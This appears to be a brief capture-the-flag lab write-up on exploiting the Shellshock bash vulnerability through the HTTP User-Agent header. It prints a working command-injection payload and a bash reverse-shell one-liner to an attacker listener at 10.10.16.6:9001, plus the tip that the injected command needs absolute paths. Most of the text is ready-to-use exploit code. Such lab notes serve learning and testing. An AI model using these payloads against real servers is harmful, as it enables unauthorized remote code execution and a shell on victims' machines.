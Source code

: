 Here i learnt the complete syntax and POC of find shell shock vuln


`User-Agent: () { :;}; echo; /usr/bin/id`

with this i got the desired output and got a reverse shell


>Important thing to note here is the the command we want to run. We have to specify its absolute path


I created a bash reverse shell using shellgen


──(root💀kali)-[~/Desktop/THM/shellgen]
└─# ./shellgen tun0 9001

bash -i >& /dev/tcp/10.10.16.6/9001 0>&1


buw when i injected i got an error

`User-Agent: () { :;}; echo;bash -i >& /dev/tcp/10.10.16.6/9001 0>&1`


Update the the code with absolute path and got a reverse shell


`User-Agent: () { :;}; echo;/bin/bash -i >& /dev/tcp/10.10.16.6/9001 0>&1`


